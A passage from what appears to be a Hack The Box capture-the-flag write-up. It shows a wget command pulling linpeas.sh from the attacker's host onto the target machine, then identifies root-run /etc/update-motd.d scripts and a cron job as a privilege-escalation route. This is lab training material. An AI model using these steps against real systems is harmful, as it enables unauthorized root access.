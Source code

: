```text
wget http://10.10.14.21:80/linpeas.sh
```

where the ip address is our own ip address on the HTB network, the port number is the port number used from the python command above and then the name of the file.

When running both tools we see a file updating every minute, which looked like a Cron job restoring /etc/update-motd.d/.

![](.gitbook/assets/vmplayer_vnz5uo4nuo.png)

Looking at the pspy output it would seem that the file is actually being updated every 30 seconds. This to me seams like a good way to priv esc if the settings on them are set up incorrectly.

So navigating to the /etc/update-motd.d folder, we see this as our output for `ls -la`

![](.gitbook/assets/vmplayer_a3w5a19cxp.png)

we see that the scripts in this folder are executed as root. Which with a bit of googling we can see that these files are executed during user login.

looking inside of the files we see that 00-header is the code that makes the banner apear when we logged in with ssh.
